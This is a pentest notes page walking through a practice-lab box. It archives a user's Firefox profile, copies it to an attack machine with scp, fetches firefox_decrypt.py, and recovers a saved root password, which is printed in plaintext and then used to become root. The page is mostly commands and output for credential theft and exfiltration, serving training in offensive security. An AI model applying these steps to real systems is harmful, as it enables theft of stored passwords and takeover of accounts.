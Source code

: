 ```yaml
---
layout: default
title: Mozilla Decrypt
parent: Cracking
nav_order: 6
---
```


# Mozilla Decrypt

---

There is a _.mozilla_ directory we can maybe get creds from.

Tar the directory and transfer to our attack machine.

```bash

# Tar the entire .mozilla directory
[elliot@insanityhosting ~]$ tar -czf mozilla.tgz .mozilla/

# Netcat not available so use SCP to transfer to attack box
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/insanityhosting]
└─$ scp elliot@192.168.202.124:mozilla.tgz .
elliot@192.168.202.124s password:
mozilla.tgz                                                           100%   40MB   1.9MB/s   00:21

# Extract the files
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/insanityhosting]
└─$ tar -xzf mozilla.tgz


```

We'll use the _firefox_decrypt.py_ script to extract any credentials in the Mozilla files.

[Firefox Decrypt GitHub Raw Code](https://raw.githubusercontent.com/unode/firefox_decrypt/main/firefox_decrypt.py)

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/insanityhosting]
└─$ wget https://raw.githubusercontent.com/unode/firefox_decrypt/main/firefox_decrypt.py
--2023-11-18 21:24:26--  https://raw.githubusercontent.com/unode/firefox_decrypt/main/firefox_decrypt.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.111.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 39242 (38K) [text/plain]
Saving to: ‘firefox_decrypt.py’

firefox_decrypt.py        100%[=====================================>]  38.32K  --.-KB/s    in 0.01s

2023-11-18 21:24:26 (3.01 MB/s) - ‘firefox_decrypt.py’ saved [39242/39242]


```

Run the _firefox_decrypt.py_ on _.mozilla/firefox_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/insanityhosting]
└─$ python3 firefox_decrypt.py .mozilla/firefox/
Select the Mozilla profile you wish to decrypt
1 -> wqqe31s0.default
2 -> esmhp32w.default-default
2

Website:   https://localhost:10000
Username: 'root'
Password: 'S8Y389KJqWpJuSwFqFZHwfZ3GnegUa'

```

Use the extracted password to switch to the _root_ user.

```bash
[elliot@insanityhosting ~]$ su root
Password:
[root@insanityhosting elliot]# id
uid=0(root) gid=0(root) groups=0(root)
[root@insanityhosting elliot]# whoami
root

```
